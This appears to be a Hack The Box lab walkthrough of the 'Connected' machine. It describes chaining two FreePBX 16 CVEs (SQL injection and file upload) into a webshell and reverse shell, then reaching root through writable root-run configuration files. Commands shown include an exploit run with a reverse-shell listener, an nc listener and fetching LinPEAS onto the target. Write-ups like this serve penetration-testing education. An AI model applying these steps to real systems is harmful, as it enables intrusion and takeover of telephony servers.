# Hack The Box — Connected

> **Platform:** Hack The Box  
> **Machine:** Connected  
> **Difficulty:** Easy  
> **Operating System:** Linux  
> **Assessment Type:** Black-Box  
> **Objective:** Obtain user and root access by chaining multiple vulnerabilities affecting FreePBX 16.

---

# Overview

Connected is a modern Linux machine that demonstrates how individually severe vulnerabilities can become significantly more dangerous when combined into a complete attack chain.

Rather than relying on a single vulnerable service, this assessment involved identifying the underlying application, researching recently disclosed vulnerabilities, and chaining two publicly disclosed CVEs to obtain remote code execution.

Following the initial compromise, standard post-exploitation techniques were used to enumerate the system before identifying a privilege escalation path that resulted in complete root access.

One important takeaway from this machine is that exploitation rarely ends with obtaining a shell. Initial access is simply the beginning of the assessment.

---

# Attack Path

```
Reconnaissance
      │
      ▼
Service Enumeration
      │
      ▼
Virtual Host Discovery
      │
      ▼
FreePBX Fingerprinting
      │
      ▼
CVE Research
      │
      ▼
SQL Injection
      │
      ▼
Admin Account Creation
      │
      ▼
Authenticated File Upload
      │
      ▼
Remote Code Execution
      │
      ▼
Reverse Shell
      │
      ▼
Privilege Enumeration
      │
      ▼
Privilege Escalation
      │
      ▼
Root Access
```

---

# Initial Reconnaissance

Every assessment begins by identifying the externally exposed services.

I started with a standard TCP scan to understand the attack surface exposed by the target.

```bash
nmap -sC -sV -oN nmap_scan 10.129.166.244
```

### Scan Result

> 📷 **Screenshot**



The scan identified three accessible services.

| Port | Service |
|-------|----------|
|22|SSH|
|80|HTTP|
|443|HTTPS|

The HTTP service redirected requests to **connected.htb**, indicating that the application relied on virtual host routing.

To properly interact with the application, I added the hostname to my local hosts file before continuing the assessment.

---

# Web Application Enumeration

After configuring the virtual host, I revisited the web application and began manual enumeration.

The interface appeared to be running **FreePBX**, an open-source IP PBX management platform built on top of Asterisk.

> 📷 **Screenshot**



At this stage, the application version became the most valuable piece of information.

Knowing the exact software version often allows recently disclosed vulnerabilities to be mapped directly against the target.

---

# Vulnerability Research

Searching for the detected version immediately revealed several recent disclosures affecting FreePBX 16.

> 📷 **Screenshot**



One public repository in particular documented an exploit chain combining two vulnerabilities:

- CVE-2025-57819
- CVE-2025-61678

> 📷 **Screenshot**



Rather than manually reproducing the exploit chain, I reviewed the proof-of-concept to understand its behaviour before executing it against the target.

The chain first abuses a stacked SQL injection to create a new administrator account before leveraging an authenticated file upload vulnerability to achieve remote code execution.

---

# Initial Access

After reviewing the exploit, I executed it against the target.

```bash
python3 exploit.py --host connected.htb --lhost <VPN-IP> --lport 4444
```

> 📷 **Screenshot**



The exploit successfully:

- Created a new administrative user.
- Authenticated to the FreePBX dashboard.
- Uploaded a PHP webshell.
- Triggered a reverse shell callback.

To receive the incoming connection, I started a Netcat listener.

```bash
nc -lvnp 4444
```

> 📷 **Screenshot**



The target connected successfully, providing an interactive shell running as the **asterisk** user.

---

# Verifying Code Execution

Before continuing with post-exploitation, I verified the execution context.

```bash
id
```

> 📷 **Screenshot**



The output confirmed that commands were executing as the **asterisk** service account.

Although this provided code execution, additional privilege escalation would be required to obtain full control of the system.

---

# User Enumeration

With shell access established, I began exploring the filesystem.

The `/home` directory contained the **asterisk** user's home directory.

```bash
cd /home/asterisk

ls
```

> 📷 **Screenshot**



Reading `user.txt` confirmed successful user-level compromise.

---

# Privilege Enumeration

Rather than immediately searching for kernel exploits or SUID binaries, I began with automated local enumeration using **LinPEAS**.

First, I hosted the script locally.

```bash
python3 -m http.server 8000
```

> 📷 **Screenshot**


Next, the script was downloaded onto the target.

```bash
wget http://<VPN-IP>:8000/linpeas.sh
chmod +x linpeas.sh
```

> 📷 **Screenshot**



Finally, I executed the script.

```bash
./linpeas.sh
```

> 📷 **Screenshot**



The enumeration identified several writable configuration files associated with FreePBX services.

These files were later used to trigger commands executed with elevated privileges.

---

# Privilege Escalation

Manual inspection of the scheduled tasks revealed writable service configuration files executed by root.

> 📷 **Screenshot**



By appending a reverse shell payload to one of these configuration files and triggering the associated service restart, I was able to execute commands as root.

Once the payload executed, a second reverse shell connected back to my listener.

> 📷 **Screenshot**



Verifying the session confirmed complete compromise of the system.

```bash
whoami
```

```
root
```

---

# Findings

| Finding | Severity |
|----------|----------|
|CVE-2025-57819 – Unauthenticated SQL Injection|Critical|
|CVE-2025-61678 – Authenticated File Upload|Critical|
|Chained Exploitation Leading to Remote Code Execution|Critical|
|Writable Service Configuration Allowing Privilege Escalation|High|

---

# Lessons Learned

Connected demonstrates why vulnerability chaining has become increasingly common in modern offensive security.

Several observations stood out during this assessment:

- Version identification is often more valuable than blind vulnerability scanning.
- Public proof-of-concept code should be reviewed to understand its behaviour before execution.
- Initial access is only one phase of an engagement; systematic post-exploitation remains equally important.
- Automated enumeration tools such as LinPEAS are highly effective when combined with manual analysis.
- Small configuration weaknesses can become critical when an attacker already possesses limited shell access.

---

# Tools Used

- Nmap
- Netcat
- Python HTTP Server
- LinPEAS
- FreePBX Public Exploit
- Linux Command Line

---

# References

- CVE-2025-57819
- CVE-2025-61678
- LinPEAS
- FreePBX
- Hack The Box — Connected

---

> **Disclaimer**
>
> This walkthrough documents an assessment performed exclusively within the authorized Hack The Box laboratory environment. It is intended for educational purposes and to demonstrate penetration testing methodology in a controlled setting.